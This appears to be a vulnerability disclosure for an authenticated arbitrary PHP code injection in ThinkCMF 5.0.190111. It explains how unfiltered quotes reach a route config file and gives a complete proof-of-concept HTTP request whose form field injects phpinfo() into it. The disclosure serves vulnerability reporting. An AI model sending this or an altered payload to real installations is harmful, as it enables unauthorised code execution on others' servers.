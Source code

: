 # ThinkCMF-5.0.190111 backend arbitrary code injection

## Description
ThinkCMF 5.0.190111 failed to filter single quote(i.e. ') in user input, resulting in arbitrary php code injected in `data/conf/route.php`. This vulnerability can be triggered by backend logged in user making a crafted HTTP request to **/portal/admin_category/addpost.html**



### The trigger point
![](img/20190128160302.jpg)

## PoC
```http
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22%2C%22%22)%2Cphpinfo()%2C'2
```

## Demo
![](img/thinkcmf.gif)

## Analysis
[某CMS最新版5.0.190111后台任意文件写入导致的代码执行](https://xz.aliyun.com/t/3997)
